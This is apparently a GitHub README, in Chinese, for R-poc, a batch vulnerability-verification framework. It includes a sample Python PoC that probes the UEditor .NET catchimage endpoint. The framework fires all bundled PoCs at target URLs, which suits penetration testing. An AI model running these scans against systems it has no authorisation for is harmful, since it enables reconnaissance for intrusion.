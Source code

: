 # R-poc

一款用于快速验证漏洞的简易框架

基于Airpoc，对其进行了微小改动

原项目文章：https://paper.seebug.org/913/

支持单/多目标

暴力执行pocs目录下的所有poc对目标进行测试

# usage：

vulscan.py http://www.xxx.com

vulscan.py target.txt(目标文件放置于target目录下)

有关文章：https://www.freebuf.com/sectool/267793.html

![](https://github.com/hackerhackrat/R-poc/blob/main/img/R-poc1.png)

# 如何编写poc？

以下为ueditor.net漏洞的poc

`#!/usr/bin/env python
#coding=utf-8
import requests
from report.report import save
pocname = "ueditor-net"
headers = {'Content-Type': 'application/x-www-form-urlencoded','User_Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36'}
def verify(arg, **kwargs):
	exploit = "/ueditor/net/controller.ashx?action=catchimage"
	try:
		r = requests.get(url=arg+exploit,headers=headers)
		if '参数错误：没有指定抓取源' in r.text:
			save(arg,pocname,exploit)
			return {"url": arg, "poc-name":pocname, "exploit": exploit}
	except Exception as e:
		pass`

poc都要引用report目录下的report文件的save函数

需要提供三个参数:arg,pocname,exploit

# 更新

2021.4.17 update requirements.txt;

update poc:eyou-rce-2021,Druid-unauth,Spring-unauth，Resin

感谢各位师傅的支持，鄙人QQ:3382340265